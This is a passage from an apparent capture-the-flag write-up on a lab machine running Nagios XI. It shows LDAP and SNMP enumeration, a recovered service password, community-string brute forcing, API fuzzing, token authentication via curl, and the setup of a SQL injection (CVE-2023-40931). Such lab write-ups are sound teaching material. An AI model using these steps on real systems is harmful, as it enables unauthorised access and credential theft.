 ```
ldapsearch -H ldap://monitored.htb:389/ -x -s base -b 'dc=monitored,dc=htb' "(objectClass=*)" "*" +
```

While this didn’t return anything particularly useful, my UDP scan uncovered SNMP on port 161, so I pivoted to using snmpwalk to enumerate possible information from SNMP.

```
snmpwalk -v2c -c public 10.10.11.248
```

Here, I found an interesting entry related to a user and potential password.

```
-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7V.............
```

I then used onesixtyone to brute force any other community strings that might be present, but this user/password pair was enough to proceed.

```
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 10.10.11.248
```

### API Key Discovery and Nagios Enumeration

NagiosXI has a a fair number of CVE's but I don't know the version of the application yet. Furthermore, most of the vulnerabilities I've found require an authenticated user, and the credentials I found earlier don't seem to work for any of the login pages. 

While taking a breather, I looked back at my recurisve ffuf scan. The directory `/nagiosxi/api/v1/` contains a ton of information, but most of it is is 32 bytes long.  Out of curiosity, I looked in the browser to see what was happening. The browser returned a simple API error. "No API Key provided." I filtered out these errors in ffuf to see if there were any other messages from the API.

```
ffuf -u https://nagios.monitored.htb/nagiosxi/api/v1/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -fs 32 
```

I discovered the following message when sending a request to `/api/v1/authenticate`: "You can only use POST with authenticate."

This is a documented form of interaction with the Nagios API, and after a digging through some forum posts I found this command for authenticating to the server and gaining an auth token:

```
curl -XPOST -k -L 'http://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=svc&password=XjH7V..........&valid_min=120'
```

This gave me a token (e.g., `e91ef72bc6d1e00c8432adeb8242dab064ae102f`). I now had authenticated access, which was crucial for exploiting [CVE-2023-40931](https://medium.com/@n1ghtcr4wl3r/nagios-xi-vulnerability-cve-2023-40931-sql-injection-in-banner-ace8258c5567), a SQL injection vulnerability in Nagios XI. The vulnerability specifically targets the Banner acknowledging endpoint. When users acknowledge a banner, a POST request is sent to `/nagiosxi/admin/banner_message-ajaxhelper.php` with these parameters either following the URI or in the Data field: `action=acknowledge_banner_message` and `id=3`. The vulnerability here is that the ID field is assumed to be trusted despite coming directly from the client without sanitization.
